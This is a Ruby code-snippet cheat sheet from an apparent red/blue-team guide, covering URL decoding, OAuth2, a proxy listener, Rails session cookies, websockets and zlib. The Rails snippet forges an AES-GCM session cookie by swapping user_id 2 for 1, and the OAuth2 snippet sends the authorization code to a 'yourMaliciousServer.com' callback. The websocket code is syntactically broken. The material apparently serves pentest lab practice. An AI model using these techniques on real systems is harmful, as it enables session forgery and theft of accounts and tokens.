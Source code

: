 ## CODE EXAMPLES
1. [DECODING](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#decoding)
2. [OAUTH2 TOKEN](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#oauth2-token)
3. [PROXY](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#proxy)
4. [RUBY ON RAILS: AES-GCM SIGNED SESSION](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#ruby-on-rails-aes--gcm-signed-session)
5. [WEBSOCKET](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#websocket)
6. [ZLIB](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#zlib)

<br />

### DECODING
- URL-Decode in Ruby: `require 'uri'; URI.decode("http%3A%2F%2Fexample.com%2F%3Fa%3Druby%20uri%20decode")`

<br />

### OAUTH2 TOKEN 
- Firstly, `gem install oauth2`
```
require 'oauth2'

callback = "http://yourMaliciousServer.com"
app_id = " "

secret = " "
client = OAuth2::Client.new(app_id, secret, site: "http://authorization-server.com")
client.auth_code.authorize_url(redirect_uri: callback)


code = " "
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token
```

<br />

### PROXY
- More Advanced: [https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0](https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0)
```
# REQ: sudo gem install sinatra

require 'net/http'
require 'uri'
require 'sinatra'

set :port, 4444
set :bind, '0.0.0.0'

get '/' do
  uri = URI("http://...")
  resp = Net::HTTP.get_response(uri)
  loc = resp.header['location']
  text = "Hello Visitor!"
end
```

### RUBY ON RAILS: AES-GCM SIGNED SESSION 
- Helpful: [https://emanual.github.io/ruby-docs](https://emanual.github.io/ruby-docs/classes/OpenSSL/Cipher/CipherError.html)
```
require 'uri'
require 'cgi'
require 'base64'
require 'openssl'

cookie = URI.decode("iowp3WAChN4G....TmF9TMUgkDepg%3D--xguco..6khpC--wdizT8Aw..3D%3D")

def secret()
    secret = Digest::MD5.hexdigest("PentesterLab::Application")
    OpenSSL::PKCS5.pbkdf2_hmac_sha1(secret, "authenticated encrypted cookie", 1000, 32)
    end

def decrypt(cookie)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    encrypted_data, iv, auth_tag = cookie.split("--".freeze).map { |v| ::Base64.strict_decode64(v) }
    cipher.decrypt
    cipher.key = secret()
    cipher.iv  = iv
    cipher.auth_tag = auth_tag
    cipher.auth_data = ""
    decrypted_data = cipher.update(encrypted_data) + cipher.final
    end

def encrypt(string)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    cipher.encrypt
    cipher.key = secret()
    iv = cipher.random_iv
    cipher.auth_data = ""
    encrypted_data = cipher.update(string) + cipher.final
    blob = "#{::Base64.strict_encode64 encrypted_data}--#{::Base64.strict_encode64 iv}"
    blob = "#{blob}--#{::Base64.strict_encode64 cipher.auth_tag}"
    blob
    end

string = decrypt(cookie)
string = string.sub! '"user_id":2', '"user_id":1'
puts CGI.escape(encrypt(string))


# Example string = {"session_id":"7ee48973...952f595","_csrf_token":"+UV6rbAMo6QW...6lAGP8=","user_id":1}
# Output: 6k5xPNUYdUbZX9eH...BGZ%2BfyPvi9CU%2BZOD5qKVc%3D--61raV%2BxHyFVR4Rv3--KiSR%2F9hZqMfntNewcCm9kQ%3D%3D
```

## WEBSOCKET
```
#REQ gem install websocket-eventmachine-client

require 'websocket-eventmachine-client'

EM.run
  ws = WebSocket::EventMachine::Client.connect(uri: 'ws://example.com')
  ws.onopen do
    send.("key")
  end
  ws.onmessage do |msg, type|
    puts msg
  end
end
```

## ZLIB
- Decompress data
```
require 'zlib'

z = Zlib::Inflate.new
data = z.inflate File.read("yourfile")
puts data
```
